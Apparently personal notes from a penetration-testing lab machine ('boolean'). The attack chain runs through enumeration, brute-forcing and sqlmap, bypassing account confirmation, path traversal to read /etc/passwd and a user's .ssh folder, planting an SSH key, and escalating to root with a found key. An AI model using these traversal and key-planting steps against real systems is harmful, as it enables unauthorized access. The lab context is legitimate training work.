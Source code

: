 ### Enumeration
```
IP=192.168.239.231
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80,3000,33017 -A $IP
```
### Ports 
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 80
	- http
- 3000 - closed
- 33017
	- Apache httpd 2.4.38 ((Debian))
### Foothold
- 80
	- ![[Pasted image 20240701133910.png]]
	- dirsearch -u http://$IP
		- `/404  /404.html  /500  /robots.txt  /register`
	- /404
		- ![[Pasted image 20240701134021.png]]
	- /robots.txt
		- `# See https://www.robotstxt.org/robotstxt.html for documentation on how to use the robots.txt file`
	- /register
		- username admin  -  already taken
		- abc:abc  -  sends email for confirmation
		- Able to login but says to confirm account
	- /login
		- capture login req with burp. put into req.txt
		- ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -fs 2678
		- sqlmap -r req.txt -p username,password,commit
			- not injectable
		- Change email
			- ![[Pasted image 20240701135309.png]]
			- Can maybe change the confirm value to true
			- ![[Pasted image 20240701135433.png]]
			- Changed it to user confirmed=true
			- Then refresh page and we are in!
			- ![[Pasted image 20240701135502.png]]
			- Tried uploading php, phar, phtml, jpg. It downloads
			- In source code `<a href="[?cwd=&amp;file=webshell.phar&amp;download=true](view-source:http://192.168.239.231/?cwd=&file=webshell.phar&download=true)">webshell.phar</a>`
			- Need to set download to false
			- Tried adjusting url
				- `http://192.168.239.231/?cwd=&file=webshells.php&download=false`
				- Still downloads
				- Sending it via burp still downloads
			- Try some XSS
				- `http://192.168.239.231/?cwd=../../../../../../etc&file=passwd&download=true`
				- downloads /etc/passwd
					- /bin/bash
						- root
						- remi
				- `http://192.168.239.231/?cwd=../../../../../../home/remi/.ssh&file=&download=true`
					- ![[Pasted image 20240701140444.png]]
					- /keys
						- ![[Pasted image 20240701140504.png]]
						- might be able to upload our own file into .ssh
						- Put id_rsa.pub into /.ssh directory
						- ssh -i ~/.ssh/id_rsa remi@$IP
						- now we are ssh
- 22
	- ssh -i root root@$IP
		- Requires password
	- ssh -i id_rsa remi@$IP
		- Requires password
	- ssh -i id_rsa.2 remi@$IP
		- Requires password
	- ssh -i id_rsa.2 remi@$IP
		- Requires password
	- ssh2john on all files > has no password!
- 33017
	- ![[Pasted image 20240701134851.png]]
	- dirsearch -u http://$IP:33017
		- `/admin  /cgi-bin  /info`
	- /admin
		- 404 forbidden
### PE
#### Linux
- remi
	- id
		- uid=1000(remi) gid=1000(remi) groups=1000(remi)
	- sudo -l
		- sudo command not found
	- uname -a
		- Linux boolean 4.19.0-21-amd64 #1 SMP Debian 4.19.249-2 (2022-06-30) x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
		- nothing
	- linpeas
		- nothing
	- .ssh/keys
		- root key
		- ssh -i root root@127.0.0.1
			- giving too many authentication failures
		- ssh -i root root@127.0.0.1 -o IdentitiesOnly=true
			- allows us to get root
### Lessons Learned